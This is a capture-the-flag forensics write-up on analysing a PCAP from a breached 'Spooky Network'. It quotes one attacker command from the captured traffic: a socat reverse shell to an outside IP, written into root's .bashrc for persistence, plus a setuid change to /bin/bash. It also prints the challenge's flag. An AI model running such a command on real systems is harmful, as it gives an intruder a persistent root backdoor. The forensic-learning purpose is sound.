

# Wrong Spooky Season

## Description

"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

## Solution

For this challenge, only a PCAP file was provided. Opening it in Wireshark and looking at the HTTP objects I notice some requests that look like RCE


Following the TCP streams, the last one captured the commands of a remote shell. One of the commands in it is
```bash
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```

Decoding the base64-looking string with the following command will get the flag
```bash
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
# HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
